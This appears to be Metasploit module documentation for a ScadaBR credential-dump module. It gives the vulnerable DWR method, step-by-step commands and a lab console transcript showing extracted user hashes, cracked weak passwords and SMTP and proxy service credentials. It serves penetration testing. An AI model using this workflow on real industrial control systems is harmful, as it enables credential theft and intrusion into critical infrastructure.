 ## Vulnerable Application

This module retrieves credentials from ScadaBR, including
service credentials and unsalted SHA1 password hashes for
all users, by invoking the `EmportDwr.createExportData` DWR
method of Mango M2M which is exposed to all authenticated
users regardless of privilege level.

ScadaBR is a SCADA (Supervisory Control and Data Acquisition)
system with applications in Process Control and Automation,
being developed and distributed using the open source model.

This module has been tested successfully with ScadaBR
versions 1.0 CE and 0.9 on Windows and Ubuntu systems.

## Verification Steps

Download:

* [Windows Installers](https://sourceforge.net/projects/scadabr/files/Software/Installer%20Win32/)
* [Linux Installers](https://sourceforge.net/projects/scadabr/files/Software/Linux/)
* [Tomcat WAR files](https://sourceforge.net/projects/scadabr/files/Software/WAR/)

Metasploit:

1. Start `msfconsole`
1. Do: `use auxiliary/admin/http/scadabr_credential_dump`
1. Do: `set rhosts [IP]`
1. Do: `set username [USERNAME]`
1. Do: `set password [PASSWORD]`
1. Do: `run`
1. You should get credentials

## Options

### USERNAME

The username for the application (default: `admin`)

### PASSWORD

The password for the application (default: `admin`)

### PASS_FILE

Wordlist file to crack password hashes (default: `./data/unix_passwords.txt`)

## Scenarios

```
msf6 > use auxiliary/admin/http/scadabr_credential_dump 
msf6 auxiliary(admin/http/scadabr_credential_dump) > set rhosts 172.16.191.194
rhosts => 172.16.191.194
msf6 auxiliary(admin/http/scadabr_credential_dump) > set username admin
username => admin
msf6 auxiliary(admin/http/scadabr_credential_dump) > set password admin
password => admin
msf6 auxiliary(admin/http/scadabr_credential_dump) > run
[*] Running module against 172.16.191.194

[+] 172.16.191.194:8080 Authenticated successfully as 'admin'
[+] 172.16.191.194:8080 Export successful (4735 bytes)
[+] Config saved in: /root/.msf4/loot/20210220192214_default_172.16.191.194_scadabr.config_546879.txt
[+] Found 5 users
[*] Found weak credentials (admin:admin)
[*] Found weak credentials (operator:a)
[*] Found weak credentials (test:sunshine)
[*] Found weak credentials (user:A)
[*] Found weak credentials (zxcv:zxcv)

ScadaBR User Credentials
========================

 Username  Password  Hash (SHA1)                               Role   E-mail
 --------  --------  -----------                               ----   ------
 admin     admin     d033e22ae348aeb5660fc2140aec35850c4da997  Admin  admin@yourMangoDomain.com
 operator  a         86f7e437faa5a7fce15d1ddcb9eaeaea377667b8  User   operator@localhost
 test      sunshine  8d6e34f987851aa599257d3831a1af040886842f  User   test@localhost
 user      A         6dcd4ce23d88e2ee9568ba546c007c63d9131c1b  Admin  user@localhost
 zxcv      zxcv      9878e362285eb314cfdbaa8ee8c300c285856810  User   zxcv@localhost

[+] Found SMTP credentials: smtptestuser:smtptestpass@127.0.0.1:25
[+] Found HTTP proxy credentials: proxytestuser:proxytestpass@127.0.0.1:8080

ScadaBR Service Credentials
===========================

 Service     Host       Port  Username       Password
 -------     ----       ----  --------       --------
 HTTP proxy  127.0.0.1  8080  proxytestuser  proxytestpass
 SMTP        127.0.0.1  25    smtptestuser   smtptestpass

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/scadabr_credential_dump) > creds
Credentials
===========

host            origin          service          public    private   realm  private_type  JtR Format
----            ------          -------          ------    -------   -----  ------------  ----------
172.16.191.194  172.16.191.194  8080/tcp (http)  admin     admin            Password
172.16.191.194  172.16.191.194  8080/tcp (http)  operator  a                Password
172.16.191.194  172.16.191.194  8080/tcp (http)  test      sunshine         Password
172.16.191.194  172.16.191.194  8080/tcp (http)  user      A                Password
172.16.191.194  172.16.191.194  8080/tcp (http)  zxcv      zxcv             Password

msf6 auxiliary(admin/http/scadabr_credential_dump) > 
```

